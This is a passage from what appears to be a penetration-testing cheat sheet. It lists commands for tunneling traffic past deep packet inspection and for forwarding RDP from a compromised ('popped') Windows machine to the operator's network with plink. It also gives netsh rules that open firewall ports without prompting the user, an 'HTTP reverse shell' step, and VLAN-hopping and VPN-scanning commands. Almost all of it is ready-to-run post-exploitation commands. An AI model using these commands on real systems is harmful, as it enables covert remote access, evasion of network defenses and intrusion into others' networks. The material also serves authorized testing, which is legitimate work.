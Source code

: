 -   Traffic Encapsulation - Bypassing deep packet inspection

    -   http\_tunnel  
        On server side:  
        sudo hts -F &lt;server\_ip\_addr&gt;:&lt;port\_of\_your\_app&gt;
        80  
        On client side:  
        sudo htc -P &lt;my\_proxy.com:proxy\_port&gt; -F
        &lt;port\_of\_your\_app&gt; &lt;server\_ip\_addr&gt;:80  
        stunnel

-   Tunnel Remote Desktop (RDP) from a Popped Windows machine to your
    network

    -   Tunnel on port 22  
        plink -l root -pw pass -R 3389:$ip:3389 $ip

    -   Port 22 blocked? Try port 80? or 443?  
        plink -l root -pw 23847sd98sdf987sf98732 -R 3389:$ip:3389 $ip -P
        80

-   Tunnel Remote Desktop (RDP) from a Popped Windows using HTTP Tunnel
    (bypass deep packet inspection)

    -   Windows machine add required firewall rules without prompting
        the user

    -   netsh advfirewall firewall add rule name="httptunnel\_client"
        dir=in action=allow program="httptunnel\_client.exe" enable=yes

    -   netsh advfirewall firewall add rule name="3000" dir=in
        action=allow protocol=TCP localport=3000

    -   netsh advfirewall firewall add rule name="1080" dir=in
        action=allow protocol=TCP localport=1080

    -   netsh advfirewall firewall add rule name="1079" dir=in
        action=allow protocol=TCP localport=1079

    -   Start the http tunnel client  
        httptunnel\_client.exe

    -   Create HTTP reverse shell by connecting to localhost port 3000  
        plink -l root -pw 23847sd98sdf987sf98732 -R 3389:$ip:3389 $ip -P
        3000

-   VLAN Hopping

    -   git clone https://github.com/nccgroup/vlan-hopping.git  
        chmod 700 frogger.sh  
        ./frogger.sh

-   VPN Hacking

    -   Identify VPN servers:  
        ./udp-protocol-scanner.pl -p ike $ip

    -   Scan a range for VPN servers:  
        ./udp-protocol-scanner.pl -p ike -f ip.txt

